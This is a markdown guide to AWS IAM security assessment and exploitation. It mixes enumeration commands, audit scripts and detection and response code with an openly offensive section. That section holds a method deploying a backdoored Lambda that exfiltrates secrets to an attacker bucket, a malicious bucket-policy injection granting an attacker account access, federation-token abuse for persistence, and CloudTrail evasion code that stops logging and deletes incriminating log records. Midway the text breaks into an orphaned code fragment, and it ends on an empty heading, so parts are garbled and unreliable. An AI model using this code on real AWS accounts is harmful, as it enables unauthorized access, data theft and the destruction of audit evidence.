

# AWS IAM Security Assessment and Exploitation

Comprehensive guide to testing AWS IAM configurations, identifying privilege escalation paths, and detecting supply chain attack vectors using practical AWS CLI commands and security tools.

## IAM Reconnaissance and Enumeration

### Identity and Permission Discovery

```bash
# Basic identity enumeration
aws sts get-caller-identity
aws iam get-user
aws iam get-account-summary

# List all IAM users and roles
aws iam list-users --output table
aws iam list-roles --output table
aws iam list-groups --output table

# Enumerate policies attached to current user
aws iam list-attached-user-policies --user-name $(aws sts get-caller-identity --query User.UserName --output text)
aws iam list-user-policies --user-name $(aws sts get-caller-identity --query User.UserName --output text)

# Check effective permissions for current user
aws iam simulate-principal-policy \
    --policy-source-arn $(aws sts get-caller-identity --query Arn --output text) \
    --action-names "*" \
    --resource-arns "*" \
    --max-items 100
```

### Cross-Account Access Discovery

```bash
# Identify cross-account trust relationships
aws iam list-roles --query 'Roles[?contains(AssumeRolePolicyDocument, `arn:aws:iam::`)].{RoleName:RoleName,Arn:Arn}' --output table

# Extract external account IDs from role trust policies
aws iam list-roles | jq -r '.Roles[] | select(.AssumeRolePolicyDocument | contains("arn:aws:iam::")) | .RoleName' | \
while read role; do
    echo "Role: $role"
    aws iam get-role --role-name $role --query 'Role.AssumeRolePolicyDocument' --output text | \
    python -c "import sys, json, urllib.parse; print(json.dumps(json.loads(urllib.parse.unquote(sys.stdin.read())), indent=2))"
    echo "---"
done

# Test cross-account role assumption
echo "account-123456789012:role/CrossAccountRole" | \
while IFS=':' read account role; do
    aws sts assume-role \
        --role-arn "arn:aws:iam::$account:role/$role" \
        --role-session-name "security-assessment" \
        --duration-seconds 3600 2>/dev/null && echo "Successfully assumed role: $role in account: $account"
done
```

### Service-Linked Role Analysis

```bash
# Identify service-linked roles
aws iam list-roles --path-prefix /aws-service-role/ --output table

# Check which services can create service-linked roles
aws iam list-roles | jq -r '.Roles[] | select(.Path == "/aws-service-role/") | .RoleName' | \
while read role; do
    service=$(echo $role | cut -d'/' -f3)
    echo "Service: $service, Role: $role"
    aws iam get-role --role-name $role --query 'Role.MaxSessionDuration' --output text
done

# Test service-linked role enumeration
for service in ec2 lambda rds s3 ecs eks; do
    aws iam get-role --role-name "AWSServiceRoleFor$service" 2>/dev/null && echo "Service role exists for: $service"
done
```

## Privilege Escalation Detection

### IAM Policy Analysis

```bash
# Find overprivileged policies
aws iam list-policies --scope Local --output table
aws iam list-policies --query 'Policies[?PolicyName==`AdminAccess` || PolicyName==`PowerUserAccess`]' --output table

# Check for wildcard permissions
aws iam list-policies --scope Local | jq -r '.Policies[].Arn' | \
while read policy_arn; do
    echo "Checking policy: $policy_arn"
    aws iam get-policy-version --policy-arn $policy_arn --version-id v1 | \
    jq -r '.PolicyDocument.Statement[] | select(.Effect == "Allow" and (.Action == "*" or .Resource == "*")) | "WILDCARD FOUND"'
done

# Analyze custom policies for privilege escalation vectors
aws iam list-policies --scope Local | jq -r '.Policies[].Arn' | \
while read policy_arn; do
    aws iam get-policy-version --policy-arn $policy_arn --version-id v1 | \
    jq -r --arg arn "$policy_arn" '
    .PolicyDocument.Statement[] |
    select(.Effect == "Allow") |
    select(.Action[] | test("iam:.*Policy|iam:.*Role|iam:.*User|sts:AssumeRole")) |
    {policy: $arn, dangerous_actions: .Action, resources: .Resource}
    '
done
```

### Role Chain Discovery

```bash
# Find roles that can assume other roles
aws iam list-roles | jq -r '.Roles[].RoleName' | \
while read role; do
    echo "Checking role: $role"
    aws iam list-attached-role-policies --role-name $role | jq -r '.AttachedPolicies[].PolicyArn' | \
    while read policy; do
        aws iam get-policy-version --policy-arn $policy --version-id v1 | \
        jq -r --arg role "$role" '
        select(.PolicyDocument.Statement[]?.Action[]? | test("sts:AssumeRole")) |
        "Role \($role) can assume other roles via policy \(input_filename)"
        '
    done
done

# Test role assumption chains
cat > test_role_chain.sh << 'EOF'
#!/bin/bash
ORIGINAL_CREDS=$(aws sts get-caller-identity)
echo "Starting as: $ORIGINAL_CREDS"

for role_arn in "$@"; do
    echo "Attempting to assume role: $role_arn"
    TEMP_CREDS=$(aws sts assume-role --role-arn $role_arn --role-session-name "escalation-test" --query 'Credentials.[AccessKeyId,SecretAccessKey,SessionToken]' --output text)

    if [ $? -eq 0 ]; then
        export AWS_ACCESS_KEY_ID=$(echo $TEMP_CREDS | cut -f1)
        export AWS_SECRET_ACCESS_KEY=$(echo $TEMP_CREDS | cut -f2)
        export AWS_SESSION_TOKEN=$(echo $TEMP_CREDS | cut -f3)

        echo "Successfully assumed role. New identity:"
        aws sts get-caller-identity

        # Test escalated permissions
        aws iam list-users --max-items 1 >/dev/null 2>&1 && echo "Can list IAM users"
        aws ec2 describe-instances --max-items 1 >/dev/null 2>&1 && echo "Can list EC2 instances"
        aws s3 ls >/dev/null 2>&1 && echo "Can list S3 buckets"
    fi
done
EOF
chmod +x test_role_chain.sh
```

### Secrets and Credential Discovery

```bash
# Search for embedded credentials in user data
aws ec2 describe-instances --query 'Reservations[].Instances[].UserData' --output text | base64 -d | grep -E "(aws|secret|key|password)"

# Check for credentials in Lambda environment variables
aws lambda list-functions | jq -r '.Functions[].FunctionName' | \
while read func; do
    echo "Checking Lambda function: $func"
    aws lambda get-function-configuration --function-name $func | \
    jq -r '.Environment.Variables // {} | to_entries[] | select(.key | test("(?i)(aws|secret|key|password)")) | "\(.key): \(.value)"'
done

# Scan Parameter Store for sensitive values
aws ssm describe-parameters | jq -r '.Parameters[].Name' | \
while read param; do
    if aws ssm get-parameter --name "$param" --with-decryption >/dev/null 2>&1; then
        echo "Accessible parameter: $param"
        aws ssm get-parameter --name "$param" --with-decryption --query 'Parameter.Value' --output text | head -c 100
        echo "..."
    fi
done

# Check Secrets Manager
aws secretsmanager list-secrets | jq -r '.SecretList[].Name' | \
while read secret; do
    echo "Checking secret: $secret"
    aws secretsmanager get-secret-value --secret-id "$secret" --query 'SecretString' --output text 2>/dev/null | head -c 100
done
```

## Supply Chain Attack Detection

### CI/CD Pipeline Security Assessment

```bash
# Identify CodeBuild projects with overprivileged roles
aws codebuild list-projects | jq -r '.projects[]' | \
while read project; do
    echo "Checking CodeBuild project: $project"
    service_role=$(aws codebuild batch-get-projects --names $project --query 'projects[0].serviceRole' --output text)
    echo "Service role: $service_role"

    # Check role permissions
    role_name=$(echo $service_role | cut -d'/' -f2)
    aws iam list-attached-role-policies --role-name $role_name --output table
done

# Check CodePipeline execution roles
aws codepipeline list-pipelines | jq -r '.pipelines[].name' | \
while read pipeline; do
    echo "Checking CodePipeline: $pipeline"
    aws codepipeline get-pipeline --name $pipeline | \
    jq -r '.pipeline.roleArn'

    # Get role permissions
    role_arn=$(aws codepipeline get-pipeline --name $pipeline --query 'pipeline.roleArn' --output text)
    role_name=$(echo $role_arn | cut -d'/' -f2)
    aws iam simulate-principal-policy \
        --policy-source-arn $role_arn \
        --action-names "s3:GetObject" "s3:PutObject" "iam:PassRole" \
        --resource-arns "*" \
        --query 'EvaluationResults[].EvalDecision' --output text
done

# Scan for GitHub Actions OIDC providers
aws iam list-open-id-connect-providers | \
jq -r '.OpenIDConnectProviderList[] | select(.Arn | contains("token.actions.githubusercontent.com")) | .Arn' | \
while read provider_arn; do
    echo "Found GitHub Actions OIDC provider: $provider_arn"

    # Find roles that trust this provider
    aws iam list-roles | jq -r --arg provider "$provider_arn" '
    .Roles[] |
    select(.AssumeRolePolicyDocument | test($provider)) |
    {RoleName: .RoleName, MaxSessionDuration: .MaxSessionDuration}
    '
done
```

### Third-Party Integration Analysis

```bash
# Identify external AWS accounts with access
aws iam list-roles | \
jq -r '.Roles[] | select(.AssumeRolePolicyDocument | test("arn:aws:iam::[0-9]+:")) | .RoleName' | \
while read role; do
    echo "Role with external account access: $role"
    aws iam get-role --role-name $role --query 'Role.AssumeRolePolicyDocument' --output text | \
    python -c "
import sys, json, urllib.parse, re
policy = json.loads(urllib.parse.unquote(sys.stdin.read()))
for stmt in policy.get('Statement', []):
    principal = stmt.get('Principal', {})
    if isinstance(principal.get('AWS'), str):
        match = re.search(r'arn:aws:iam::(\d+):', principal['AWS'])
        if match:
            print(f'External account: {match.group(1)}')
    elif isinstance(principal.get('AWS'), list):
        for arn in principal['AWS']:
            match = re.search(r'arn:aws:iam::(\d+):', arn)
            if match:
                print(f'External account: {match.group(1)}')
"
done

# Check for overly permissive S3 bucket policies affecting supply chain
aws s3api list-buckets --query 'Buckets[].Name' --output text | tr '\t' '\n' | \
while read bucket; do
    policy=$(aws s3api get-bucket-policy --bucket $bucket --query 'Policy' --output text 2>/dev/null)
    if [ ! -z "$policy" ]; then
        echo "Bucket: $bucket"
        echo "$policy" | jq -r '.Statement[] | select(.Effect == "Allow" and (.Principal == "*" or .Principal.AWS == "*")) | "WARNING: Public access allowed"'
    fi
done
```

## Automated IAM Security Assessment

### Comprehensive IAM Audit Script

```bash
#!/bin/bash
# AWS IAM Security Assessment Script

OUTPUT_DIR="aws_iam_assessment_$(date +%Y%m%d_%H%M%S)"
mkdir -p $OUTPUT_DIR

echo "Starting AWS IAM Security Assessment..."
echo "Output directory: $OUTPUT_DIR"

# Basic enumeration
echo "1. Basic Identity and Account Information"
aws sts get-caller-identity > $OUTPUT_DIR/caller_identity.json
aws iam get-account-summary > $OUTPUT_DIR/account_summary.json

# User enumeration
echo "2. User Enumeration"
aws iam list-users > $OUTPUT_DIR/users.json
aws iam list-groups > $OUTPUT_DIR/groups.json
aws iam list-roles > $OUTPUT_DIR/roles.json

# Policy analysis
echo "3. Policy Analysis"
aws iam list-policies --scope Local > $OUTPUT_DIR/custom_policies.json
aws iam list-policies --scope AWS --max-items 100 > $OUTPUT_DIR/aws_managed_policies.json

# Dangerous permissions search
echo "4. Searching for Dangerous Permissions"
cat > $OUTPUT_DIR/dangerous_permissions_check.py << 'EOF'
import json
import sys

dangerous_actions = [
    "iam:CreatePolicy",
    "iam:CreateRole",
    "iam:AttachRolePolicy",
    "iam:AttachUserPolicy",
    "iam:PutUserPolicy",
    "iam:PutRolePolicy",
    "sts:AssumeRole",
    "*"
]

with open(sys.argv[1], 'r') as f:
    policies = json.load(f)

for policy in policies.get('Policies', []):
    policy_arn = policy['Arn']
    print(f"Checking policy: {policy_arn}")
EOF

python $OUTPUT_DIR/dangerous_permissions_check.py $OUTPUT_DIR/custom_policies.json

# Cross-account trust analysis
echo "5. Cross-Account Trust Analysis"
jq -r '.Roles[] | select(.AssumeRolePolicyDocument | contains("arn:aws:iam::")) | .RoleName' $OUTPUT_DIR/roles.json > $OUTPUT_DIR/cross_account_roles.txt

# Service-linked roles
echo "6. Service-Linked Roles"
jq -r '.Roles[] | select(.Path == "/aws-service-role/") | .RoleName' $OUTPUT_DIR/roles.json > $OUTPUT_DIR/service_linked_roles.txt

# Generate summary report
cat > $OUTPUT_DIR/assessment_summary.txt << EOF
AWS IAM Security Assessment Summary
==================================
Date: $(date)
Account: $(aws sts get-caller-identity --query Account --output text)

Users: $(jq '.Users | length' $OUTPUT_DIR/users.json)
Groups: $(jq '.Groups | length' $OUTPUT_DIR/groups.json)
Roles: $(jq '.Roles | length' $OUTPUT_DIR/roles.json)
Custom Policies: $(jq '.Policies | length' $OUTPUT_DIR/custom_policies.json)
Cross-Account Roles: $(wc -l < $OUTPUT_DIR/cross_account_roles.txt)
Service-Linked Roles: $(wc -l < $OUTPUT_DIR/service_linked_roles.txt)

See individual files for detailed analysis.
EOF

echo "Assessment complete. Check $OUTPUT_DIR/assessment_summary.txt for summary."
```

### Privilege Escalation Testing with ScoutSuite

```bash
# Install ScoutSuite
pip install scoutsuite

# Run comprehensive AWS security assessment
scout aws --profile default --report-dir aws_security_report

# Focus on IAM findings
scout aws --services iam --profile default --report-dir iam_focused_report

# Generate custom rules for supply chain detection
cat > supply_chain_rules.json << 'EOF'
{
    "aws": {
        "iam": {
            "findings": {
                "cross-account-trust-too-permissive": {
                    "description": "Cross-account trust relationships without external ID",
                    "path": "iam.roles.id.assume_role_policy.Statement.id",
                    "conditions": [
                        "and",
                        [
                            "this.Effect",
                            "equal",
                            "Allow"
                        ],
                        [
                            "this.Principal.AWS",
                            "withKey",
                            "arn:aws:iam::"
                        ],
                        [
                            "this.Condition",
                            "empty",
                            ""
                        ]
                    ]
                }
            }
        }
    }
}
EOF

scout aws --rules supply_chain_rules.json --profile default
```

### CloudTrail Analysis for IAM Activities

```bash
# Search for suspicious IAM activities in CloudTrail
aws logs filter-log-events \
    --log-group-name CloudTrail/IAMEvents \
    --start-time $(date -d '7 days ago' +%s)000 \
    --filter-pattern '{ ($.eventName = CreateRole) || ($.eventName = AttachRolePolicy) || ($.eventName = PutRolePolicy) || ($.eventName = AssumeRole) }' \
    --output table

# Look for privilege escalation attempts
aws logs filter-log-events \
    --log-group-name CloudTrail/IAMEvents \
    --start-time $(date -d '24 hours ago' +%s)000 \
    --filter-pattern '{ ($.errorCode = UnauthorizedOperation) || ($.errorCode = AccessDenied) }' \
    --query 'events[*].[eventTime,sourceIPAddress,userIdentity.type,eventName,errorMessage]' \
    --output table

# Monitor for cross-account role assumptions
aws logs filter-log-events \
    --log-group-name CloudTrail/STSEvents \
    --start-time $(date -d '7 days ago' +%s)000 \
    --filter-pattern '{ $.eventName = AssumeRole && $.responseElements.assumedRoleUser.arn != $.userIdentity.arn }' \
    --output json | \
jq -r '.events[] | "\(.eventTime) - \(.sourceIPAddress) - \(.userIdentity.type):\(.userIdentity.arn) assumed \(.responseElements.assumedRoleUser.arn)"'
```

## Incident Response and Remediation

### Emergency IAM Lockdown

```bash
# Emergency script to lockdown compromised IAM entities
cat > emergency_iam_lockdown.sh << 'EOF'
#!/bin/bash
# Emergency IAM lockdown script

COMPROMISED_USER=$1
COMPROMISED_ROLE=$2

if [ ! -z "$COMPROMISED_USER" ]; then
    echo "Locking down user: $COMPROMISED_USER"

    # Disable access keys
    aws iam list-access-keys --user-name $COMPROMISED_USER | \
    jq -r '.AccessKeyMetadata[].AccessKeyId' | \
    while read key_id; do
        aws iam update-access-key --user-name $COMPROMISED_USER --access-key-id $key_id --status Inactive
        echo "Deactivated access key: $key_id"
    done

    # Attach deny all policy
    aws iam put-user-policy --user-name $COMPROMISED_USER --policy-name EmergencyDenyAll --policy-document '{
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Deny",
                "Action": "*",
                "Resource": "*"
            }
        ]
    }'
fi

if [ ! -z "$COMPROMISED_ROLE" ]; then
    echo "Locking down role: $COMPROMISED_ROLE"

    # Update role trust policy to deny all
    aws iam update-assume-role-policy --role-name $COMPROMISED_ROLE --policy-document '{
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Deny",
                "Principal": "*",
                "Action": "sts:AssumeRole"
            }
        ]
    }'
fi
EOF

chmod +x emergency_iam_lockdown.sh
```

This comprehensive guide provides practical AWS CLI commands and tools for assessing IAM security, detecting supply chain attack vectors, and responding to incidents in AWS environments.
            print(f"Operating as: {identity['Arn']}")

            # List attached policies
            user_name = identity['Arn'].split('/')[-1]
            attached_policies = self.iam.list_attached_user_policies(UserName=user_name)

            # Check for dangerous permissions
            dangerous_actions = [
                'iam:*',
                's3:*',
                'lambda:*',
                'ec2:*',
                'sts:AssumeRole'
            ]

            for policy in attached_policies['AttachedPolicies']:
                policy_doc = self.iam.get_policy_version(
                    PolicyArn=policy['PolicyArn'],
                    VersionId=self.iam.get_policy(PolicyArn=policy['PolicyArn'])['Policy']['DefaultVersionId']
                )

                # Analyze policy for dangerous permissions
                self.analyze_policy_risks(policy_doc['PolicyVersion']['Document'])

        except Exception as e:
            print(f"Enumeration error: {e}")

    def plant_supply_chain_backdoor(self):
        """Plant backdoor in Lambda functions for supply chain persistence"""
        lambda_client = self.session.client('lambda')

        backdoor_code = '''
import json
import boto3
import base64

def lambda_handler(event, context):
    # Normal function logic here
    result = process_normal_request(event)

    # Backdoor logic
    if event.get('X-Supply-Chain-Key') == 'backdoor-2025':
        # Exfiltrate sensitive data
        s3 = boto3.client('s3')
        secrets = get_environment_secrets()

        s3.put_object(
            Bucket='attacker-exfil-bucket',
            Key=f'exfil/{context.aws_request_id}.json',
            Body=json.dumps(secrets)
        )

    return result
'''

        # Deploy backdoored Lambda
        try:
            response = lambda_client.create_function(
                FunctionName='supply-chain-processor',
                Runtime='python3.9',
                Role='arn:aws:iam::ACCOUNT:role/LambdaExecutionRole',
                Handler='index.lambda_handler',
                Code={'ZipFile': backdoor_code.encode()},
                Description='Legitimate supply chain processing function'
            )
            print(f"Backdoor Lambda deployed: {response['FunctionArn']}")
        except Exception as e:
            print(f"Backdoor deployment failed: {e}")
```

## Advanced IAM Privilege Escalation

### Policy Confusion Attacks

Exploiting IAM policy evaluation logic to escalate privileges.

#### Condition Key Confusion

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Deny",
      "Action": "*",
      "Resource": "*",
      "Condition": {
        "DateGreaterThan": {
          "aws:CurrentTime": "2024-12-31T23:59:59Z"
        }
      }
    },
    {
      "Effect": "Allow",
      "Action": "iam:*",
      "Resource": "*"
    }
  ]
}
```

**Exploitation:**
```python
def exploit_policy_confusion(iam_client):
    """Exploit policy evaluation order and condition confusion"""

    # Create role with confused policy evaluation
    trust_policy = {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Principal": {"Service": "lambda.amazonaws.com"},
                "Action": "sts:AssumeRole"
            }
        ]
    }

    # Policy with intentional confusion
    escalation_policy = {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Deny",
                "Action": ["iam:CreateRole", "iam:AttachRolePolicy"],
                "Resource": "*",
                "Condition": {
                    "StringNotEquals": {
                        "aws:userid": "non-existent-user"
                    }
                }
            },
            {
                "Effect": "Allow",
                "Action": "iam:*",
                "Resource": "*"
            }
        ]
    }

    try:
        # Create escalation role
        iam_client.create_role(
            RoleName='ConfusedPolicyRole',
            AssumeRolePolicyDocument=json.dumps(trust_policy)
        )

        # Attach confused policy
        iam_client.put_role_policy(
            RoleName='ConfusedPolicyRole',
            PolicyName='EscalationPolicy',
            PolicyDocument=json.dumps(escalation_policy)
        )

        print("Policy confusion role created successfully")

    except Exception as e:
        print(f"Exploitation failed: {e}")
```

### Resource-Based Policy Exploitation

#### S3 Bucket Policy Injection

```python
class S3PolicyExploitation:
    def __init__(self, session):
        self.s3 = session.client('s3')

    def discover_writable_buckets(self):
        """Find buckets with overpermissive policies"""
        buckets = self.s3.list_buckets()['Buckets']
        vulnerable_buckets = []

        for bucket in buckets:
            try:
                policy = self.s3.get_bucket_policy(Bucket=bucket['Name'])
                policy_doc = json.loads(policy['Policy'])

                # Check for dangerous principals
                for statement in policy_doc['Statement']:
                    if statement.get('Effect') == 'Allow':
                        principal = statement.get('Principal', {})
                        if principal == '*' or 'arn:aws:iam::*' in str(principal):
                            vulnerable_buckets.append({
                                'bucket': bucket['Name'],
                                'policy': policy_doc
                            })

            except Exception:
                continue

        return vulnerable_buckets

    def inject_malicious_policy(self, bucket_name):
        """Inject policy to maintain access"""
        malicious_policy = {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "LegitimateAccess",
                    "Effect": "Allow",
                    "Principal": {"AWS": "arn:aws:iam::ACCOUNT:root"},
                    "Action": "s3:*",
                    "Resource": [
                        f"arn:aws:s3:::{bucket_name}",
                        f"arn:aws:s3:::{bucket_name}/*"
                    ]
                },
                {
                    "Sid": "BackdoorAccess",
                    "Effect": "Allow",
                    "Principal": {"AWS": "arn:aws:iam::ATTACKER-ACCOUNT:root"},
                    "Action": ["s3:GetObject", "s3:PutObject"],
                    "Resource": f"arn:aws:s3:::{bucket_name}/*",
                    "Condition": {
                        "StringLike": {
                            "s3:prefix": "logs/*"
                        }
                    }
                }
            ]
        }

        try:
            self.s3.put_bucket_policy(
                Bucket=bucket_name,
                Policy=json.dumps(malicious_policy)
            )
            print(f"Backdoor policy injected into {bucket_name}")
        except Exception as e:
            print(f"Policy injection failed: {e}")
```

## STS Token Manipulation

### Session Token Hijacking

```python
import boto3
import json
from datetime import datetime, timedelta

class STSTokenExploitation:
    def __init__(self):
        self.sts = boto3.client('sts')

    def extract_long_lived_tokens(self, role_arn, external_id=None):
        """Extract long-lived session tokens"""
        assume_role_args = {
            'RoleArn': role_arn,
            'RoleSessionName': 'legitimate-session-name',
            'DurationSeconds': 43200  # 12 hours max
        }

        if external_id:
            assume_role_args['ExternalId'] = external_id

        try:
            response = self.sts.assume_role(**assume_role_args)
            credentials = response['Credentials']

            # Extract token components for analysis
            token_analysis = {
                'access_key': credentials['AccessKeyId'],
                'secret_key': credentials['SecretAccessKey'],
                'session_token': credentials['SessionToken'],
                'expiration': credentials['Expiration'],
                'role_arn': role_arn
            }

            return token_analysis

        except Exception as e:
            print(f"Token extraction failed: {e}")
            return None

    def forge_session_context(self, original_token):
        """Attempt to forge or extend session context"""
        # Decode session token (base64 encoded JSON)
        import base64

        try:
            # Session tokens contain encoded context
            token_parts = original_token.split('.')
            for part in token_parts:
                try:
                    decoded = base64.b64decode(part + '==').decode('utf-8')
                    context = json.loads(decoded)
                    print(f"Token context: {context}")
                except:
                    continue

        except Exception as e:
            print(f"Token analysis failed: {e}")

    def abuse_federation_tokens(self, federated_user_name):
        """Abuse federation tokens for persistence"""
        try:
            # Get federation token with extended duration
            response = self.sts.get_federation_token(
                Name=federated_user_name,
                Policy=json.dumps({
                    "Version": "2012-10-17",
                    "Statement": [
                        {
                            "Effect": "Allow",
                            "Action": "*",
                            "Resource": "*"
                        }
                    ]
                }),
                DurationSeconds=129600  # 36 hours
            )

            return response['Credentials']

        except Exception as e:
            print(f"Federation token abuse failed: {e}")
```

## CloudTrail Evasion Techniques

### Log Tampering and Evasion

```python
class CloudTrailEvasion:
    def __init__(self, session):
        self.cloudtrail = session.client('cloudtrail')
        self.s3 = session.client('s3')

    def disable_logging_temporarily(self, trail_name):
        """Temporarily disable CloudTrail logging"""
        try:
            # Stop logging
            self.cloudtrail.stop_logging(Name=trail_name)
            print(f"Logging stopped for trail: {trail_name}")

            # Wait for malicious activities
            import time
            time.sleep(300)  # 5 minutes of unlogged activity

            # Re-enable logging to avoid suspicion
            self.cloudtrail.start_logging(Name=trail_name)
            print(f"Logging resumed for trail: {trail_name}")

        except Exception as e:
            print(f"Trail manipulation failed: {e}")

    def manipulate_log_files(self, trail_bucket, log_prefix):
        """Manipulate CloudTrail log files directly"""
        try:
            # List existing log files
            response = self.s3.list_objects_v2(
                Bucket=trail_bucket,
                Prefix=log_prefix
            )

            for obj in response.get('Contents', []):
                log_key = obj['Key']

                # Download log file
                log_obj = self.s3.get_object(Bucket=trail_bucket, Key=log_key)
                log_content = json.loads(log_obj['Body'].read())

                # Remove incriminating events
                filtered_records = []
                for record in log_content['Records']:
                    # Skip events that could reveal malicious activity
                    if not self.is_incriminating_event(record):
                        filtered_records.append(record)

                # Upload modified log file
                log_content['Records'] = filtered_records
                self.s3.put_object(
                    Bucket=trail_bucket,
                    Key=log_key,
                    Body=json.dumps(log_content)
                )

                print(f"Modified log file: {log_key}")

        except Exception as e:
            print(f"Log manipulation failed: {e}")

    def is_incriminating_event(self, record):
        """Identify events that should be removed from logs"""
        incriminating_events = [
            'CreateRole',
            'AttachRolePolicy',
            'AssumeRole',
            'GetSessionToken',
            'CreateAccessKey',
            'StopLogging',
            'DeleteTrail'
        ]

        return record.get('eventName') in incriminating_events

    def create_decoy_events(self, trail_bucket, log_prefix):
        """Create legitimate-looking decoy events"""
        decoy_events = [
            {
                "eventTime": datetime.utcnow().isoformat() + "Z",
                "eventName": "DescribeInstances",
                "eventSource": "ec2.amazonaws.com",
                "userIdentity": {
                    "type": "IAMUser",
                    "principalId": "AIDACKCEVSQ6C2EXAMPLE",
                    "arn": "arn:aws:iam::123456789012:user/admin",
                    "accountId": "123456789012",
                    "userName": "admin"
                },
                "sourceIPAddress": "192.0.2.0",
                "userAgent": "aws-cli/2.0.0"
            }
        ]

        # Insert decoy events into log files
        # Implementation details...
```

## Recent AWS Security Incidents Analysis

### Supply Chain Attack Case Studies

#### Case Study 1: CodeCov Supply Chain Attack (2021)

**Attack Vector**: Compromised bash uploader script
**IAM Exploitation**:
- Extracted AWS credentials from CI/CD environments
- Used credentials to access customer S3 buckets
- Lateral movement through cross-account roles

**Timeline:**


**Detection Gaps:**
- Long-lived access keys in CI/CD
- Overprivileged cross-account roles
- Insufficient monitoring of third-party tool access

#### Case Study 2: 3CX Supply Chain Attack (2023)

**IAM Impact**:
- Compromised AWS accounts of 3CX customers
- Used IAM roles to deploy malicious infrastructure
- Leveraged AWS services for C2 communication

**Lessons Learned:**
```python
def implement_supply_chain_controls():
    """Implement controls based on recent incidents"""
    controls = {
        'credential_management': [
            'Use short-lived tokens (max 1 hour)',
            'Implement credential rotation',
            'Use IAM roles instead of access keys',
            'Enable MFA for all privileged operations'
        ],
        'cross_account_security': [
            'Use external IDs for all cross-account roles',
            'Implement condition-based access controls',
            'Regular audit of cross-account trusts',
            'Monitor cross-account API calls'
        ],
        'monitoring': [
            'Enable CloudTrail in all regions',
            'Monitor IAM policy changes',
            'Alert on unusual cross-account activity',
            'Implement behavioral analysis'
        ]
    }
    return controls
```

## Advanced Detection and Response

### Automated IAM Threat Detection

```python
import boto3
from datetime import datetime, timedelta

class IAMThreatDetection:
    def __init__(self):
        self.cloudtrail = boto3.client('cloudtrail')
        self.iam = boto3.client('iam')

    def detect_privilege_escalation(self, lookback_hours=24):
        """Detect potential privilege escalation attempts"""
        end_time = datetime.utcnow()
        start_time = end_time - timedelta(hours=lookback_hours)

        # Query CloudTrail for suspicious IAM activities
        events = self.cloudtrail.lookup_events(
            LookupAttributes=[
                {
                    'AttributeKey': 'EventSource',
                    'AttributeValue': 'iam.amazonaws.com'
                }
            ],
            StartTime=start_time,
            EndTime=end_time
        )

        escalation_indicators = []

        for event in events['Events']:
            event_detail = json.loads(event['CloudTrailEvent'])

            # Check for escalation patterns
            if self.is_escalation_attempt(event_detail):
                escalation_indicators.append({
                    'event_time': event['EventTime'],
                    'event_name': event['EventName'],
                    'user_identity': event_detail.get('userIdentity', {}),
                    'source_ip': event_detail.get('sourceIPAddress'),
                    'risk_score': self.calculate_risk_score(event_detail)
                })

        return escalation_indicators

    def is_escalation_attempt(self, event_detail):
        """Identify privilege escalation patterns"""
        escalation_patterns = [
            # Role/policy creation followed by assumption
            'rapid_role_creation_and_assumption',
            # Policy modification with broad permissions
            'policy_broadening',
            # Cross-account role abuse
            'cross_account_escalation',
            # Service-linked role abuse
            'service_role_abuse'
        ]

        # Implementation of pattern detection logic
        event_name = event_detail.get('eventName')
        user_identity = event_detail.get('userIdentity', {})

        # Check for suspicious patterns
        if event_name in ['CreateRole', 'AttachRolePolicy', 'PutRolePolicy']:
            # Analyze policy content for broad permissions
            return self.analyze_policy_escalation(event_detail)

        return False

    def calculate_risk_score(self, event_detail):
        """Calculate risk score for IAM events"""
        risk_score = 0

        # Factors that increase risk score
        risk_factors = {
            'admin_policy_attachment': 50,
            'cross_account_assumption': 30,
            'unusual_source_ip': 20,
            'off_hours_activity': 15,
            'new_user_creation': 25,
            'policy_wildcard_usage': 40
        }

        # Analyze event for risk factors
        for factor, score in risk_factors.items():
            if self.check_risk_factor(event_detail, factor):
                risk_score += score

        return min(risk_score, 100)  # Cap at 100
```

### Incident Response Automation

```python
class IAMIncidentResponse:
    def __init__(self):
        self.iam = boto3.client('iam')
        self.sts = boto3.client('sts')

    def emergency_lockdown(self, compromised_user_arn):
        """Emergency lockdown of compromised IAM user"""
        try:
            # Extract user name from ARN
            user_name = compromised_user_arn.split('/')[-1]

            # Disable user access keys
            access_keys = self.iam.list_access_keys(UserName=user_name)
            for key in access_keys['AccessKeyMetadata']:
                self.iam.update_access_key(
                    UserName=user_name,
                    AccessKeyId=key['AccessKeyId'],
                    Status='Inactive'
                )
                print(f"Disabled access key: {key['AccessKeyId']}")

            # Attach emergency deny policy
            emergency_policy = {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Deny",
                        "Action": "*",
                        "Resource": "*"
                    }
                ]
            }

            self.iam.put_user_policy(
                UserName=user_name,
                PolicyName='EmergencyDenyAll',
                PolicyDocument=json.dumps(emergency_policy)
            )

            print(f"Emergency lockdown completed for user: {user_name}")

        except Exception as e:
            print(f"Emergency lockdown failed: {e}")

    def revoke_active_sessions(self, role_arn):
        """Revoke all active sessions for a role"""
        try:
            role_name = role_arn.split('/')[-1]

            # Update role policy to deny existing sessions
            session_revoke_policy = {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Deny",
                        "Action": "*",
                        "Resource": "*",
                        "Condition": {
                            "DateLessThan": {
                                "aws:TokenIssueTime": datetime.utcnow().isoformat() + "Z"
                            }
                        }
                    }
                ]
            }

            self.iam.put_role_policy(
                RoleName=role_name,
                PolicyName='RevokeOldSessions',
                PolicyDocument=json.dumps(session_revoke_policy)
            )

            print(f"Active sessions revoked for role: {role_name}")

        except Exception as e:
            print(f"Session revocation failed: {e}")
```

## Defense Strategies

